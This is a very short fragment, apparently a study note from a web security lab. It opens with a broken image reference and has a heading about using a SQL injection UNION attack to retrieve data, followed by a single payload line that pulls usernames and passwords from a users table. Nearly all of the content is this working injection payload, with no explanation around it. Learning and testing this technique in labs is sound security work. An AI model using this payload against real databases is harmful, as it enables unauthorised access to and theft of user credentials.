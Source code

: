 #Using a SQL injection UNION attack to retrieve interesting data
#THEORY
' UNION SELECT username, password FROM users--

